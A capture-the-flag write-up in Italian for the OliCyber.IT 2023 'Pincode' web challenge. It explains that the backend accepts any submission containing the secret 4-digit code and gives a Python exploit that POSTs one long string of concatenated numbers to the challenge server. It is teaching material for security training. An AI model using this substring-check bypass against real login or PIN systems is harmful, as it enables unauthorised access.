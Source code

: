 # OliCyber.IT 2023 - Simulazione training camp 3

## [web] Pincode (76 risoluzioni)

Siamo davanti ad un pad che ci permette di inserire il codice per entrare in una area riservata.

Fortunatamente abbiamo il codice sorgente del backend per vedere come sono generati i codici.

### Soluzione

Nonostante la generazione del codice sia randomica:

```python
def generate_code():
    return ''.join(random.choices(string.digits, k=4))
```

il controllo è eseguito tramite l'operatore `in`:

```python
    if pincode and code in pincode:
```

Possiamo quindi generare una sequenza con tutti i codici possibili e sottomettere quella.

### Exploit

```python
#!/bin/python3

import requests
import re

base_url = 'http://pincode.challs.olicyber.it'

payload = ''
for i in range(1000, 10000):
    payload += f'{i:04}'

r = requests.post(base_url, data={
    'pincode': payload
})

ans = re.findall('flag\{.*\}', r.text)

print(ans[0])
```
